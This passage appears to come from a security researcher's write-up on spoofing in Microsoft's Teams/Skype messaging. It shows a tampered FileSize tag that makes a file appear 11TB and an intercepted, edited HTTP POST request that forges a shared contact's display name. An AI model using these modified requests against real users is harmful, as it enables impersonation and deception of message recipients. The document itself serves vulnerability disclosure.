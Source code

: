 ```
<FileSize v=\"11000000000000\"></FileSize>
```

Our file looks like it's 11TB now.

![Spoofed-size](./size_spoofed.png)

# Spoofing Shared Contacts

I don't know how practical this is but I thought I'd share it anyways. While sharing a contact intercept the request and modify the display name or username. The modification will then be reflected to the target user.

```
POST /v1/users/ME/conversations/19%REDACTED%40thread.skype/messages?x-ecs-etag= HTTP/1.1
Host: azwus1-client-s.gateway.messenger.live.com
...

{
"clientmessageid":"31905252195064291",
"composetime":"2021-01-31T20:02:39.230Z",
"content":"<contacts><c t=\"s\" s=\"evil.account\" f=\"It's Bob!\"></c></contacts>",
"messagetype":"RichText/Contacts",
"contenttype":"text",
"imdisplayname":"mr d0x",
"properties":{
    "forwardMetadata":"{\"isForwarded\":false}"
    }
}
```

![Spoofed-Contact](./fake_contact.png)
